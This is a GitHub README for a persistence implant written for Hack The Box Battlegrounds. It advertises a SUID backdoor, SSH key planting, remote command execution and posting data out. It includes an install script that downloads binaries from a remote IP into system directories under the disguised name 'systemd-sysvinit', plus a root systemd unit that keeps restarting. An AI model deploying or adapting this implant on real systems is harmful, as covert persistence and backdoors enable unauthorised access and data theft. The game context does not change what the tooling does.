 # HBG-Pwnage

## HTB Battleground implant

You're probably thinking why? Well after playing Hack the Box Battleground which is great fun by the way, I found it time consuming to keep my persistence, and fetch the flags whenever they are updated. 

So I created this implant! 

By the way, I'm not developer at all but keen to hear any feedback or improvements.

## Features

- Runs as a systemd service
- Posts data back to a HTTP endpoint
- Drops an SSH public key (replace with yours)
- Executes shell command
- Drops a SUID backdoor
- Pulls the root and user flags off


## Compiling
```
gcc implant.c -o implant
```

## Installing
```
#!/bin/bash

curl -S http://10.10.10.10/systemd-sysvinit -o /usr/lib/systemd/systemd-sysvinit && chmod 755 /usr/lib/systemd/systemd-sysvinit
curl -S http://10.10.10.10/sysvinit.service -o /usr/lib/systemd/system/sysvinit.service

systemctl daemon-reload
sudo systemctl enable sysvinit
systemctl start sysvinit
```

## Service definition
```
[Unit]
Description=Sysvinit
StartLimitIntervalSec=0

[Service]
Type=forking
Restart=always
RestartSec=1
User=root
ExecStart=/lib/systemd/systemd-sysvinit

[Install]
WantedBy=multi-user.target
```

Some tweaks are require to get it working, replace your IP address with the IP address in the source code, and the curl command to install. 